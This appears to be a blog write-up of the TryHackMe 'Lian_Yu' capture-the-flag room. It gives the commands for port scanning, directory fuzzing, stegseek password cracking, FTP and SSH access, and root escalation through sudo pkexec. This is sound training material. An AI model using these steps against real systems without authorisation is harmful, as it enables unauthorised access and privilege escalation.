 ```yaml
---
layout: post
title: "Lian_Yu"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [Rustscan, ffuf, CyberChef, ftp, stegseek, pkexec, GTFObins]
image: ../../assets/img/posts/lianyu.png 

---
```


## Description

A beginner level security challenge.

|**Room**|[Lian_Yu](https://tryhackme.com/room/lianyu)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Deamon](https://tryhackme.com/p/Deamon)|

---

Deploy the machine and quickly scan the ports with rustscan,

```bash
rustscan -a 10.10.10.149
```

![image](https://user-images.githubusercontent.com/67465230/186409511-201b029e-93a8-4952-96e7-3c86e0abd4fc.png)

we get 5 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p21,22,80,111,52167 10.10.10.149 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186409549-d33b0080-c8df-4e90-9149-b77b88418e8e.png)

Scan result reveals that port 21 is running ftp service, port 22 is running ssh service, port 80 is running apache webserver, port 111 and 52167 are running rpc services. Enumerate port 80.

Visit http://10.10.10.149,

![image](https://user-images.githubusercontent.com/67465230/186409602-9c5e82e4-1add-453d-850d-907df35795f6.png)

we got a webpage showing background image and some context of Arrowverse.

I decided to find hidden directories using ffuf tool,

```bash
ffuf -u http://10.10.10.149/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186409649-dd0de8c4-0ca0-4b62-8bd5-e185f3eaa8ff.png)

a directory named **island** was found.

Visit http://10.10.10.149/island,

![image](https://user-images.githubusercontent.com/67465230/186409704-4d24e9fd-4bdd-4df9-b8fc-8862f263b7af.png)

we got a message and a username vigilante.

Again, finding hidden directories using ffuf tool,

```bash
ffuf -u http://10.10.10.149/island/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301 -ic 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186409755-80bc0f9c-a681-48ed-8d98-e25194ad2f62.png)

a directory named **2100** was found.

Visit http://10.10.10.149/island/2100,

![image](https://user-images.githubusercontent.com/67465230/186409813-87134b04-065c-40a1-a481-96d47adc7c52.png)

we got a video which was unavailable to us.

Viewing the source code,

![image](https://user-images.githubusercontent.com/67465230/186409860-fc0b46fd-1475-4dc3-8e65-7b512c18152c.png)

we got the message that we can find a file with extension **.ticket** here.

Again, finding hidden directories using ffuf tool,

```bash
ffuf -u http://10.10.10.149/island/2100/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301 -e .ticket -ic 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186409910-c03737e0-c797-4c3f-aa6a-39d95eb6ac0d.png)

we found the name of the ticket.

Navigating to http://10.10.10.149/island/2100/green_arrow.ticket,

![image](https://user-images.githubusercontent.com/67465230/186409967-ff20dc69-cbe0-492c-91b3-3e8b48202755.png)

we got a encoded string.

Visit [cyberchef](https://gchq.github.io/CyberChef/),

![image](https://user-images.githubusercontent.com/67465230/186410024-ca505bb8-2df1-4534-8724-f52ab62e4f39.png)

decoding the string with base58 result in the pasword.

Let's access the ftp service with following credentials,

```bash
ftp 10.10.10.149
```

![image](https://user-images.githubusercontent.com/67465230/186410063-a7ac5611-7919-4ae1-9206-cf46691c3ddc.png)

we got in.

Enumerating directory,

![image](https://user-images.githubusercontent.com/67465230/186410099-c05857f0-2087-4aa0-89aa-a87b2dda0317.png)

we got some files which we can transfer to our system.

```bash
get .other_user
get .bash_history
get Leave_me_alone.png
get "Queen's_Gambit.png"
```

![image](https://user-images.githubusercontent.com/67465230/186410150-ac8e27bb-02ff-4aa5-85eb-d75fe82df0bf.png)

Navigating one directory back, I found another user, slade. We can't do inside slade user directory (access denied)

![image](https://user-images.githubusercontent.com/67465230/186410198-9e631500-e172-42ab-9f82-184bc5dd33f6.png)

read the content of .bash_history,

![image](https://user-images.githubusercontent.com/67465230/186410223-fe90e507-11e7-4a47-807d-635c0cd91f80.png)

it says we can look into .other_user to find something useful.

Looking into .other_user, I found the username **slade** starting right of the file.

Now, we can crack the password of the image and extract the data hidden inside using stegseek,

```bash
stegseek --crack aa.jpg /usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/67465230/186410251-a70a9cae-d1c3-4114-ae28-7e497182d4d8.png)

the data got extracted.

Unzipping the zip file,

```bash
unzip aa.jpg.out
```

![image](https://user-images.githubusercontent.com/67465230/186410287-0d00b47c-519f-4f17-8504-acc5423e2913.png)

this extracts the 2 files. 

Looking inside passwd.txt file,

![image](https://user-images.githubusercontent.com/67465230/186410342-a04c4329-769a-4148-a5cc-7abcc14734b4.png)

a small note which was not useful!

Viewing inside shado file,

![image](https://user-images.githubusercontent.com/67465230/186410367-d60d7a26-241b-4697-b727-d7dd7f98d91b.png)

we got password.

Using credentials to drop into machine via ssh,

```bash
ssh slade@10.10.32.225
```

![image](https://user-images.githubusercontent.com/67465230/186410408-8d4e1188-cec7-413f-80da-8790a009612b.png)

we got in.

Enumerating directory and we got our user flag,

![image](https://user-images.githubusercontent.com/67465230/186410450-6688f853-c784-4b4b-9b77-ca25aba85992.png)

There is another file named .Important, taking a look inside,

![image](https://user-images.githubusercontent.com/67465230/186451982-f1b98703-885c-4054-bacb-e701232d12c1.png)

we need to find Secret_Mission file to elevate our privileges to root user.

So lets search for the file in whole system,

```bash
find / -name Secret_Mission -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/186452098-2a19b11b-41e2-4ca4-a16c-b993462112a1.png)

location of the file is **/usr/src/Secret_Mission**.

Reading the Secret_Mission file,

```bash
cat /usr/src/Secret_Mission
```

![image](https://user-images.githubusercontent.com/67465230/186452286-320552f2-8cee-42bc-857d-4ae7846dcfd0.png)

at the end of message, there is the term mentioned "super powers". I wonder this term refers to ability to run binaries as sudo user. Let's find out.

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/186452461-af74694c-b49b-495f-9762-1c7c3f9e0fd9.png)

providing password of slade user and we got **/usr/bin/pkexec** binary which we can run using sudo.

Visit gtfobins for method to elevate privilege using pkexec,

![image](https://user-images.githubusercontent.com/67465230/186452621-0f7d23e1-a93b-4448-8623-a328507532c0.png)

now, we can run /bin/bash with /usr/bin/pkexec binary which will elevate our privileges to root,

```bash
sudo /usr/bin/pkexec /bin/bash
```

![image](https://user-images.githubusercontent.com/67465230/186452672-5b261df0-f8d0-4423-a9d4-d33634ca5c05.png)

issuing `id` command reveals us that we are root user.